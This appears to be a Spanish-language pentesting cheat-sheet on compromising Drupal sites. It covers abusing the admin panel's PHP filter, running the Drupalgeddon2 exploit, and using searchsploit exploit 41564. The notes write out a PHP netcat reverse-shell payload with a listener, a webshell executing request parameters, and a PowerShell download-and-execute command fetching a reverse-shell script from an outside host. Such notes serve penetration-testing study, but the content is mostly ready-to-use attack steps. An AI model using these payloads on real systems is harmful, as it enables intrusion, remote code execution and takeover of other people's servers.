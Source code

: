 ** Explotación del panel de administración del gestor **
Cuando se consiguen credenciales válidas sobre el gestor, o mediante una inyección sql y se interna en el panel de administración del gestor:
>Se activa el módulo y se activa la característica "php filter" para permitir leer archivos php en el servidor web
>Se crea un nuevo artículo, donse se escribirá en lenguaje php el comando a ejecutar.
>Si queremos entablar una reverse shell con netcat, podemos acceder a los recursos de pentestmonkey
>`<?php system("'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f'"); ?>`
>Se cambia el formato a php code y se guarda
>Abrimos un puerto en escucha en la máquina local
>`nc -nlvp 1234`
>Obtenemos una reverse shell, la cual habrá que tratar para tener mayorer capacidades.

** Drupalgeddon2 **
https://github.com/dreadlocked/Drupalgeddon2

Usage:
`ruby drupalggedon2.rb <target> [--verbose] [--authentication]`
 `ruby drupalgeddon2.rb https://example.com`

The `--verbose` and `--authentication` parameter can be added in any order after and they are both optional. If `--authentication` is specified then you will be prompted with a request to submit

-   username,
-   password,
-   form field name for username,
-   form field name for password,
-   URL path to the web login page, e.g., `user/login`
-   eventual suffix to append after the credentials in the form submission, e.g., form_id, etc.

This is to support exploiting websites that first require POST-based web login and who respond with a session cookie, upon successful authentication.

** Exploit 41564.php (searchsploit) **
Exploit capaz de depositar un fichero al que podemos acceder desde el navegador web. Lo lógico es depositar una webshell desde la que poder ejecutar comandos (RCE).
> `searchsploit -m 41564.php`
> `mv 41564.php exploit_drupal_rce.php`
> Editar script:
> Url del target, endpoint-path
> "data"="<?php echo '<pre>' . shell_exec($_REQUEST['cmd']) . '</pre>' ?>"
> Acceso desde el navegador al fichero --> http://10.10.10.9/s4vishell.php?cmd=whoami	(RCE)
> Ejemplo para obtener una reverse shell con Invoke-Powershell de Nishang:
>  `http://10.10.10.9/s4vishell.php?cmd=powershell "IEX(New-Object Net.Webclient).downloadString(%27http://10.10.16.109/Invoke-PosershellTCP.ps1%27)"`

